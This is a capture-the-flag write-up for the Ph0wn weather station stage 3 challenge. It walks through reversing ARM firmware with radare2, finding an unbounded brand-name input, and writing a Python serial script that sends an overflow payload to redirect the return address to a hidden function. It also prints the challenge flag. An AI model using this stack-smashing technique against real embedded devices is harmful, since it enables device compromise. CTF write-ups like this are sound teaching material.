 # Ph0wn CTF: Weather station stage 3

**Category**: Exploit, **Points**: 300, **Solves**: 1

## Description

Now you can play with the OEM setup menu. Someone told me developers are eternal kids. They've include an easter egg when Winter Is Coming. Just found it in the firmware, find a way to call it and see what happen on screen.

Advice 1: The serial function is a little buggy, you should send your payload by packet of 16 bytes, and do a little 10ms pause, and then continue sending the next chunk.

Advice 2 : The firmware is provided in .elf and .bin format. It's the same version, it's up to you to use your preferred format, but a strong advice is to use the .elf file.

Advice 3: The function at @ 0x800CA88 is only here to hide the flag. Solve this task will never ask you to reverse this complex obfuscation function. If you do, you'll lose time and all the interest of the challenge.

To score this challenge please enter a flag in the form of `Ph0wn{xxxxx}`.

Author: Phil


## Write-up

### Testing brand menu

Once stage 2 is completed, we access a hidden OEM menu, where we can change temperature unit for the weather station, pressure unit, or the display name on the top of the screen.

```
************************
**** OEM Setup Menu ****
************************
-1- Setup Temperature Unit.
-2- Setup Pressure Unit.
-3- Setup Brand Name.
```

If we select `Setup Brand Name`, we end up into another menu:

```
**************************
**** Brand Name Setup ****
**************************

-1- eSAME manufacturer.
-2- Fortinet manufacturer.
-3- GreHack manufacturer.
-4- Custom

-0- Exit to main
```    

The first 3 choices setup a pre-defined manufacturer for the weather station. The last one is more interesting because we can customize the manufacturer's name.
The manufacturer's name is said to be limited to 8 characters, but if we enter more we crash the weather station:

```
Enter a new manufacturer name (MAX 8 chars !) : aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
***      CRASH      ***
SP = 0x20017e87
*** Program Stopped ***
```

Exactly, the crash occurs as soon as we enter the 37th `a`. We get the address of the Stack Pointer. So, probably, we overwrote part of the stack with our `a`. This is something to exploit.

### Reversing brand menu

Let's have a look at the function that gets the manufacturer's name.

We locate the string `Enter a new manufacturer name (MAX 8 chars !) `

```
[0x0800f520]> f~manu
0x08015cd0 115 str._1__eSAME_manufacturer._r_n_2__Fortinet_manufacturer._r_n_3__GreHack_manufacturer._r_n_4__Custom._r_n_r_n_0__Exit_to_main._r_n
0x08015d44 51 str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____:
0x08015cd0 114 str._1__eSAME_manufacturer.___2__Fortinet_manufacturer.___3__GreHack_manufacturer.___4__Custom._____0__Exit_to_main.
0x08015d44 50 str.Enter_a_new_manufacturer_name__MAX_8_chars____:
```

It is used by `0x800d8f8`, which is inside a function starting at `0x0800d8bc`:

```
[0x0800f520]> axt str.Enter_a_new_manufacturer_name__MAX_8_chars____:
(nofunc) 0x800da10 [null] ldrb r4, [r0, r5]
(nofunc) 0x800d8f8 [data] ldr r5, str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____:
...
[0x0800f520]> s 0x800d8f8
[0x0800d8f8]> pd 20
            0x0800d8f8      454d           ldr r5, str._r_nEnter_a_new_manufacturer_name__MAX_8_chars____: ; [0x8015d44:4]=0x6e450a0d ; "\r\nEnter a new manufacturer name (MAX 8 chars !) : "
            0x0800d8fa      0fcd           ldm r5!, {r0, r1, r2, r3}
```

Basically, this is how the function works:

![](./graph-overview.png)

1. It reads selection for brand menu (between 0 and 4)
2. In the case we select 4 (custom brand), it reads the custom name character by character, waiting for a 0x0D character (carriage return).  This is incorrect because we can specify far more than 8 characters...
3. It sets the brand name

### Winter function

The challenge description mentions `Winter Is Coming`. This string is located at `0x08015e54` and it is used in function `fcn.0800dfe0`

```
[0x0800f520]> f~Winter
0x08015e54 19 str.Winter_Is_Coming
[0x0800f520]> axt 0x08015e54
fcn.0800dfe0 0x800e032 [data] ldr r0, str.Winter_Is_Coming
```

So, we want to craft a long custom brand name, which will overwrite the stack, and in particular the return address from the brand name setup routine to go to `fcn.0800dfe0`.

### Writing a program that pilots the weather station

We need to:

1. Connect to the weather station's serial port
2. Unlock the OEM menu by specifying the password we found at stage 2
3. Select the brand menu
4. Select the setup of a custom brand name
5. Enter a special custom brand name (exploit)
6. Return from the function

We implement a program to do this.
To connect to the weather station's serial port, we import `serial` and specify the connection setup:

```python

ser = serial.Serial(
    port='/dev/ttyUSB0',
    baudrate=19200,
    timeout=3 # wait up to 3 seconds to read info
)

ser.isOpen()
```

Then, basically, we need to read data from the serial port. I implemented a function that reads characters from the serial port until it reaches a given keyword. For instance, when we read the keyword 'Password:' we know it is time to provide the password found at stage 3.

```python
def readUntil(keywords, debug=False):
    '''Read until we find one of the keywords, 
    Then we print what we got, stop reading, and return the message
    
    keywords is a list of words: [ 'Password' ]
    '''
    out = ''
    while True:
        c = ser.read(1)
        out = out + c
        if debug:
            print c
        for keyword in keywords:
            if keyword in out:
                print out
                print '[+] Located %s ' % (keyword)
                return out, keyword
        if ser.inWaiting() <= 0:
            print '[-] Sleeping 1 sec'
            time.sleep(1)
```

We also need to write back to the serial connection. As mentioned in the description, it can be a bit buggy, we need not to write too fast.

```python
def writeNotTooQuick(message, timeout=0.2, debug=False):
    for i in range(0, len(message)):
        ser.write(message[i])
        if debug:
            print "[+] writing: %s" % (message[i])
        time.sleep(timeout)
```

Using both `readUntil` and `writeNotTooQuick`, we make our way to the point where we need to enter the custom brand name. That's the point where we need to craft the right brand name.

#### Crafting the exploit

We know that the weather station crashes on the 37th character - point where we have overwritten the Stack Pointer. In ARM architectures, the Link Register (which carries the return address to go to) is before the SP.
We could compute exactly the right buffer to send, but we're going to try several buffers until we succeed. The idea is to send a buffer containing:

`XXXXXXXXXXXXXADDR\r`

where X is whatever we wish (the first 8 characters will be displayed as brand name on the weather station), and ADDR is the 4 byte address to jump to and `\r` is carriage return (mandatory to mention we've finished entering the brand name).

We want to jump to a function at `0x0800dfe0`. In Thumb mode, we have to jump to that address + 1: `0x0800dfe1`. So, the buffer will end with `\xe1\xdf\x00\x08` and `\x0d`.

My program sends precisely `OVERFLOWaaaaa...aaa\xe1\xdf\x00\x08\r` where the number of `a` is configurable.
If the number of `a` is really to short, this does nothing.
If the number of `a` is getting closer or badly aligned, we overwrite part of the stack, but don't jump to the function we want to.
When the number of `a` is just fine (16), we trigger the call to the winter is coming function.

![](./soluce-stage3.jpg)

The flag is `Ph0wn{P0werOfSt@ckSmashing}`

## Other write-ups and resources

Resources:
- [Smashing the ARM stack](https://www.merckedsecurity.com/blog/smashing-the-arm-stack-part-1)
- [ARM subroutines & program stack](http://www.toves.org/books/armsub/)


